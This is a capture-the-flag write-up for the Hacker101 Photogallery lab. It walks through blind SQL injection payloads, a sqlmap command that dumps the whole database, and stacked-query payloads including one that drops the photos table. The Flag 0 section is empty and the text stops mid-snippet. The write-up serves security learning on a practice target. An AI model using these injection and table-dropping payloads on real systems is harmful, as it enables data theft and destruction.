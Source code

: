 # Photogallery

This ctf took me quit a while to figure out. I personally found flag 1 first then flag 0 and after another day or two flag 2. I believe that most people will get flag 1 before flag 0. So i will write up flag 1 first. It's pretty straight forward.

## Flag 1 – SQL Injection

Navigating the website you will notice that there is not a lot to do. We can't buy anything click on anything or comment. Checking out the source code of the website tells you that the images are being loaded from the url `/fetch?id=X` (X is a placeholder for a number). Browsing to that url you will see a site with the raw image data. The interesting part however is the url itself. Looking at the url parameter and replacing the value with sth like 2-1 for example shows that the application is vulnerable to sql injection. Great!

### Blind injection
Blind sql injeciton can be used to gain information about the database layout. For example using the following query shows the length of the db_name :

```
.../fetch?id=4 OR LENGTH(database()) = 6
```
from there it is possible to guess the name using queries similar to the following:
```
.../fetch?id=4 or database() LIKE '______'
```
You can replace a single '_' with any sign in order to guess the sign at that position. Once you guessed the correct value you can replace the next underscore. The underscore characters serve as a wildcard for a single character. It is important to use 6 underscores since that is the length of the databse name.

After obtaining the database name the following query can be used to find out the number of tables in the database:
```
.../fetch?id=1 AND (SELECT Count(*) FROM information_schema.tables WHERE table_schema=database())=2
```

After that i went after the table names. There is a great tutorial on doing this [here](https://delayma.wordpress.com/2019/01/09/magical-image-gallery-1-3-hacker-101-ctf/).

The db layout looks like this :
DB Layout:
...db_name: "level5" 
...num_of_tables : 2
...tables_names : albums, photos

For the extraction of the data i used sqlmap. I dumped the entire database using the following command:
```
sqlmap -u ".../fetch?id=2" --method GET --dump -D level5 -p id --code 200 --skip-waf --random-agent --threads 10 -o
```

You will find flag 1 in the entry for the invisible kitty.


## Flag 0 – SQL Injection



### Union based injection


## Flag 2 – Stacked Queries

This flag is pretty straight forward if you read all of the hints carefully. Using stacked queries its possible to execute alot of sql commands. I tested this using :
```
.../fetch?id=1; DROP Table photos
```

This command drops the photo table and breaks the app entirely. Afterwards you have to request a new instance from the hacker101 ctf page. This however shows that the second command gets executed.
Nice now where to go from here ? Try more commands !
Next i tried to insert a new photo with id 4 :
```
../fetch?id=1; INSERT INTO photos(id,title,parent, filename) VALUES(4,test,1,files/adorable.jpg);
```
I'm using adorable.jpg because i know the image exists and the server could open it if everything else checks out. The command did not work however and there are actually multiple reasons.
...1. The data in the title and filename field are somekind of text meaning of type char or varchar. When inserting the values it is important to use '' around these values: ```... VALUES(4,'test', 1, 'files/adorable.jpg');```
...2. From what i can tell commands like UPDATE and INSERT requiere the use of transactions. I noticed that something wasn't working while running the above statement. The hint helped me figure it out:: ```../fetch?id=1; START TRANSACTION; INSERT INTO photos(id,title,parent, filename) VALUES(4,'test',1,'files/adorable.jpg'); COMMIT;







